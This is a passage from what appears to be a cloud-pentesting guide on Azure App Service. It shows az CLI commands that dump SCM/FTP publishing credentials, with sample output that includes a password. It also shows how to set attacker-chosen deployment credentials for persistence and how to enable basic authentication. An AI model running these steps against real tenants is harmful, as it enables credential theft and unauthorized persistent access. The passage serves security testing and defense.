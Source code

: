Note how the **username is always the same** (except in FTP which ads the name of the app at the beginning) but the **password is the same** for all of them.

Moreover, the **SCM URL is `<app-name>.scm.azurewebsites.net`**.

- The permission **`Microsoft.Web/sites/config/list/action`** allows to call:

```bash
az webapp deployment list-publishing-credentials --name <app-name> --resource-group <res-group>
# Example output
{
  "id": "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/carlos_rg_3170/providers/Microsoft.Web/sites/happy-bay-0d8f842ef57843c89185d452c1cede2a/publishingcredentials/$happy-bay-0d8f842ef57843c89185d452c1cede2a",
  "kind": null,
  "location": "Canada Central",
  "name": "happy-bay-0d8f842ef57843c89185d452c1cede2a",
  "publishingPassword": "bgrMliuJayY5btkKl9vRNuit7HEqXfnL9w7iv5l2Gh2Q2mAyCdCS1LPfi3zS",
  "publishingPasswordHash": null,
  "publishingPasswordHashSalt": null,
  "publishingUserName": "$happy-bay-0d8f842ef57843c89185d452c1cede2a",
  "resourceGroup": "carlos_rg_3170",
  "scmUri": "https://$happy-bay-0d8f842ef57843c89185d452c1cede2a:bgrMliuJayY5btkKl9vRNuit7HEqXfnL9w7iv5l2Gh2Q2mAyCdCS1LPfi3zS@happy-bay-0d8f842ef57843c89185d452c1cede2a.scm.azurewebsites.net",
  "type": "Microsoft.Web/sites/publishingcredentials"
}
```

Note how the **credentials are the same** as in the previous command.

- Another option would be to **set you own creds** and use them:

```bash
az webapp deployment user set \
    --user-name hacktricks \
    --password 'W34kP@ssw0rd123!'
```

Then, you can use this credentials to **access the SCM and FTP platforms**. This is also a great way to maintain persistence.

Remember that to access the SCM platform from the **web you need to access to `<SCM-URL>/BasicAuth`**.

> [!WARNING]
> Note that every user can configure it's own credentials calling the previous command, but if the user doesn't have enough permissions to access the SCM or FTP, the credentials won't work.


- If you see that those credentials are **REDACTED**, it's because you **need to enable the SCM basic authentication option** and for that you need the second permission (`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write`):

```bash
# Enable basic authentication for SCM
az rest --method PUT \
    --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/scm?api-version=2022-03-01" \
    --body '{
        "properties": {
            "allow": true
        }
    }'

# Enable basic authentication for FTP
az rest --method PUT \
    --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/ftp?api-version=2022-03-01" \
```